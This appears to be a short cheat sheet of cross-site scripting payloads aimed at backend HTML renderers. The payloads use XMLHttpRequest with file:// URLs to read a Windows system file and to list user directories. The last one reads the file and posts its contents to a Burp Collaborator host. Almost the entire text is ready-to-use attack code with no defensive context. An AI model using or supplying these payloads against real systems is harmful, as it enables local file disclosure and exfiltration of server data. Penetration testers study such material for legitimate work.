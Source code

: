 Simple file reading via backend XSS:

<html><script> x=new XMLHttpRequest; x.onload=function(){ document.write(this.responseText) }; x.open("GET","file:///C:/Windows/win.ini"); x.send(); </script></html>

Catalogs listing:

<script> x=new XMLHttpRequest; x.onload=function(){ document.write(this.responseText) }; x.open("GET","file:///C:/Users/"); x.send(); </script>

Sending files to the collaborator:

<script>x=new XMLHttpRequest;x.onload=function(){a=new XMLHttpRequest;a.open("POST","http://randomcollaborator.burpcollaborator.net",true);a.setRequestHeader("Content-type", "application/x-www-form-urlencoded");a.send(this.responseText);};x.open("GET","file:///C:/Windows/win.ini");x.send();</script>

